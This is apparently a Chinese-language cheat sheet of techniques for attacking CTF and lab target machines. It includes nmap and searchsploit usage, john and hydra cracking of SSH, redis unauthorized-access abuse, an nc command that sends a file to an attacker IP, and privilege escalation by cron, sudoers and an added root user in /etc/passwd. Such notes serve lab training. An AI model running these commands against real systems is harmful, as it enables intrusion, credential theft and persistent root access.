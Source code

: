 靶机常见思路

## **windows传文件**
通过scp通过ssh传fscan到linux
```
scp -P 28308 fscan32 ctfshow@pwn.challenge.ctf.show:/tmp
-P linux端口
ctfshow ssh用户名
```

## **nmap**
nmap -sC -A -T 4 -n -p- 10.10.10.171
nmap参数：
-sC    根据端口识别的服务，调用默认脚本
-A     OS识别,版本探测，脚本扫描和traceroute
-T（0-5）时间优化
-n/-R   不对IP进行域名反向解析/为所有的IP都进行域名的反响解析
-p- 扫描所有端口
## **searchsploit**
searchsploit 是一个命令行搜索 exp 的工具，可以直接在 kali 终端中搜 exp，使用空格来区分关键词
例如：searchsploit opennetadmin
加上 -m 可以把 exp 复制到当前目录
netstat
netstat 各个参数解释
-a (all)显示所有选项，默认不显示LISTEN相关
-t (tcp)仅显示tcp相关选项
-u (udp)仅显示udp相关选项
-n 拒绝显示别名，能显示数字的全部转化成数字
-l 仅列出有在 Listen (监听) 的服務状态
-p 显示建立相关链接的程序名
-r 显示路由信息，路由表
-e 显示扩展信息，例如uid等
-s 按各个协议进行统计
-c 每隔一个固定时间，执行该netstat命令
## **ssh相关**
**john爆破密钥密码**
用户将自己的公钥存储在远程主机上面，登陆的时候远程主机会向用户发送一段随机字符串，用户用私钥加密之后再将加密后的发送给主机，如果主机能够用公钥解密成功则可以连接
如果能查看密钥的话可以保存下来，然后用密钥去连接，如果密钥有密码的话，可以使用 ssh2john.py 先转换成 john 格式
python /usr/share/john/ssh2john.py mi > sshjohn
然后使用 john 爆破一下
john --wordlist=/usr/share/wordlists/rockyou.txt sshjohn   使用 john 爆破 --wordlist 指定字典
john 工具对于同一个 shadow 文件只会进行一次爆破，如果第二次执行 john shadow 是不会得到结果的
如果想查看上一次爆破的结果，可以加上个 --show
**hydra爆破ssh**
hydra -l jim -w 10 -P 1.txt -t 10 -v -f 192.168.149.160 ssh
-l jim              指定爆破账号为 jim
-L user.txt       指定用户名字典为 user.txt
-w 10             设置最大超时时间10s，默认30s
-P pwd.txt      指定密码字典为 pwd.txt
-t 10               指定爆破线程为 10 个
-v                   指定显示爆破过程
-f                    查找到第一个可以使用的账号和密码的时候停止破解
**authorized_keys**
authorized_keys，里面实际放的就是客户机的公钥，只要公钥在这里面，这个客户机就不用使用密码就能登录
一开始 ubuntu 中没有这个文件
wsl 用 ssh 登录是需要密码的
如果我把 wsl 的公钥拷出来，放到 ubuntu 用户 yichen 的 .ssh 下 authorized_keys 中，那么将不再需要密码
那么，如果有权限，可以把自己生成的公钥拷到用户的 authorized_keys 中，那么就可以直接 ssh 登录到这个用户
（那个靶机是允许执行另一个用户的 cp 命令，然后拷贝公钥到 .ssh/authorized_keys，再登录。但感觉实际用不到，会有这么用的？也许吧😄）
## **sudo -l**
sudo -l 可以列出当前用户可以执行哪一些指令，如果有 NOPASSWD 的，就是不需要密码就能使用 sudo 的
例如，php 是不用密码就能使用 sudo 的，那么可以写一个 php 脚本 <?php system('/bin/sh'); ?>，然后一执行就能拿到 root 权限
还有很多软件可以具体找一下他们怎么能开一个 shell，sudo 打开就是 root
## **redis未授权访问**
关于 redis 核心利用点是，通过没有身份校验的 redis 服务进行登陆，同时指定 config dir 和 config dbfilename 的路径与名称，达到把本地公钥存储到远程服务器上，这时候在通过 ssh 进行远程登陆。可以获得名为 redis 的 shell
有个利用脚本
<https://github.com/Avinash-acid/Redis-Server-Exploit>
## **python交互式终端**
一般打开的 shell，只有一个 $ 符号，通过这个能好看一下
python -c "import pty;pty.spawn('/bin/bash')"
## **从靶机上拷出东西来**
(如果有 web 服务的话，直接拷到 web 目录，然后下载应该也可以吧)
攻击机新开一个终端，nc -lvp 10001 >backup-ssh-identity-files.tgz 用来接收那个压缩包文件
靶机 shell 里面使用 nc 10.10.15.84 10001 < backup-ssh-identity-files.tgz
## **rbash逃逸**
rbash 会限制一些命令没法用，参考：https://xz.aliyun.com/t/7642
## **whatweb**
一个命令行下识别 cms 的工具
## **docker相关**
挂载目录：加参数 -v /root/:/root/
在这个靶机中拿到用户权限之后可以对 docker 进行操作，而 docker 进去是 root 权限的，docker 挂载上靶机的 root 目录之后就可以 root 权限对 /root 目录进行操作了
当你能root权限写文件
## **写linux计划任务**
cron 的默认配置文件是 /etc/cronted，#开头的是注释，不会被处理
然后上面的内容是来设置 cron 的运行环境的
* 表示任意的数，即每分钟、每小时、每天...
如果有编辑文件的软件（比如 teehee）是 root 权限运行的话可以写 * * * * * root chmod 4777 /bin/sh 进去，等个一分钟就能获得一个 root 权限的 shell
## **写/etc/sudoers**
这个东西的作用是当用户执行 sudo 的时候，会先到这里面去找，如果发现用户有 sudo 的权限就能直接以 root 的权限来执行命令
文件内容公式：授权用户/组 主机=[(切换到哪些用户或组)] [是否需要输入密码验证] 命令1,命令2...
那么可以往里写 yichen ALL=(ALL:ALL) ALL 这样 yichen 就能通过 sudo 来执行 root 权限
又或者 peter 可以不使用密码用 sudo 执行任何命令 peter ALL=(ALL) NOPASSWD: ALL
## **写/etc/passwd**
首先要生成 hash
openssl passwd -1 -salt yichen 123456
用户名：yichen，密码：123456
echo 'yichen:$1$yichen$6nzFZVX5T21iu2AmBgzin/:0:0:yichen:/root:/bin/bash' >> /etc/passwd
然后 su yichen，输入密码：123456 就拿到 root 权限了
## **重要/敏感文件**
**nginx**
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf 或 /etc/nginx/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
